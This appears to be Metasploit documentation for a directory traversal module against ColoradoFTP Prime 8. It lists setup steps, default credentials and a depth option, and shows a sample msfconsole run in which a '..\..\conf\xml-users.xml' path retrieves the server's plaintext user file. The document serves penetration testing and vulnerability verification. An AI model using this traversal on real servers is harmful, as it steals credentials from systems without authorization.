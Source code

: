 ## Notes

While the application is based in java, I was only able to get it to exploit against Windows based targets.

## Vulnerable Application

  [official site](http://cftp.coldcore.com/files/coloradoftp-prime-8.zip?site=cft1&rv=19.1&nc=1) or [github backup](https://github.com/h00die/MSF-Testing-Scripts/raw/master/coloradoftp-prime-8.zip)
  
When installing, you must edit conf/beans.xml line 183 "remoteIp" to put in your IP or else `pasv` won't work.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/ftp/colorado_ftp_traversal`
  4. Do: `set rhosts <ip>`
  5. Do: `run`
  6. You should get the xml-users.xml file

## Options

  **FTPUSER**

  Default user for Colorado FTP is `ftpuser`

  **FTPPASS**

  Default password for Colorado FTP is `ftpuser123`

  **DEPTH**

  Default depth of ../ to do is 2 to get back to the root of Colorado FTP.  This can run anywhere, so you may have to play a bit to find the root.

## Scenarios

  A run to obtain the user file (default in this case)

    msf > use auxiliary/scanner/ftp/colorado_ftp_traversal
    msf auxiliary(colorado_ftp_traversal) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(colorado_ftp_traversal) > set verbose true
    verbose => true
    msf auxiliary(colorado_ftp_traversal) > exploit
    
    [*] 1.1.1.1:21      - Connecting to FTP server 1.1.1.1:21...
    [*] 1.1.1.1:21      - Connected to target FTP server.
    [*] 1.1.1.1:21      - Authenticating as ftpuser with password ftpuser123...
    [*] 1.1.1.1:21      - Sending password...
    [*] 1.1.1.1:21      - \\\..\..\conf\xml-users.xml
    [*] 1.1.1.1:21      - 150 Opening A mode data connection for \\\..\..\conf\xml-users.xml.
    
    [*] 1.1.1.1:21      - Data returned:
    
    <users>
    
      <user name="ftpuser" pass="ftpuser123"/>
    
    </users>
    [+] 1.1.1.1:21      - Stored conf\xml-users.xml to /root/.msf4/loot/20160918184409_default_1.1.1.1_coloradoftp.ftp._168381.xml
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
